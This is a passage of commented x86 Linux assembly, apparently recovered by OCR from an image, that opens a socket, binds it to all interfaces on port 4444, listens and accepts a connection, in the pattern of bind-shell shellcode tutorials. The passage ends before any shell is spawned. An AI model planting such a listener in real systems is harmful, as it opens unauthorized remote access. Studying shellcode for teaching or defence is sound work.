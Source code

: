 ```
;
; Note: For protocol, we could also use 0, as the man page for socket tells us,
; "Normally only a single protocol exists to support a particular socket type
;   within a given protocol family, in which case protocol can be specified
;   as 0."

  mov bl, 2
  mov cl, 1
  mov dl, 6
  mov ax, 0x167
  int 0x80


; BIND TO ADDRESS
; int bind (int sockfd, const struct sockaddr *addr, socklen_t addrlen);
; syscall number: 361 (0x169)
;
; Argument Values:
; sockfd = value in eax returned by socket()
; *addr = memory address of structure containing:
;   - sin_family: 0x0002 (AF_INET/IPv4)
;   - sin_port: 0x115c (4444)
;   - sin_addr.s_addr: 0x00000000 (0.0.0.0)
; addrlen = 0x10 (16/sizeof(sockaddr_in))

  xor edx, edx
  mov ebx, eax ; mov sockfd value into ebx
  push edx ; push 0x00000000 for sin_addr.s_addr
  push word 0x5c11 ; push 0x115c for sin_port
  push word 0x02 ; push 0x0002 for sin_family
  mov ecx, esp ; memory pointer to our sockaddr struct
  mov dl, 0x10
  mov ax, 0x169
  int 0x80


; LISTEN FOR CONNECTIONS
; int listen(int sockfd, int backlog);
; syscall number: 363 (0x16b)
;
; Argument Values:
; sockfd = value in ebx
; backlog = 0

  xor ecx, ecx
  mov ax, 0x16b
  int 0x80


; ACCEPT CONNECTIONS
; int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
; syscall number: 364 (0x16c)
;
; Argument Values:
; sockfd = value in ebx
; *sockaddr = NULL (0x00)
; *addrlen = NULL (0x00)
; flags = NULL

  xor esi, esi
  xor edx, edx
  mov ax, 0x16c
  int 0x80
```